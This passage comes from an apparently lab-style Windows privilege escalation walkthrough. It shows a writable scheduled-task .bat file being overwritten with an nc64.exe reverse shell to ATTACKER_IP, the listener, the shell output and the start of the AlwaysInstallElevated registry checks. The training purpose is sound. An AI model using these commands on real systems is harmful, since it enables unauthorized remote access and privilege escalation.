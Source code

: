 C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```
As can be seen in the result, the ```BUILTIN\Users``` group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, ```nc64.exe``` can be found on ```C:\tools```. Let's change the bat file to spawn a reverse shell:

#### Command Prompt
```
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
We then start a listener on the attacker machine on the same port we indicated on our reverse shell:
```
nc -lvp 4444
```
The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

#### Command Prompt
```
C:\> schtasks /run /tn vulntask
```
And you will receive the reverse shell with taskusr1 privileges as expected:

#### Kali Linux
```
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```
Go to ```taskusr1 desktop``` to retrieve a flag. Don't forget to input the flag at the end of this task.


---

### AlwaysInstallElevated
---
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

#### Command Prompt
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```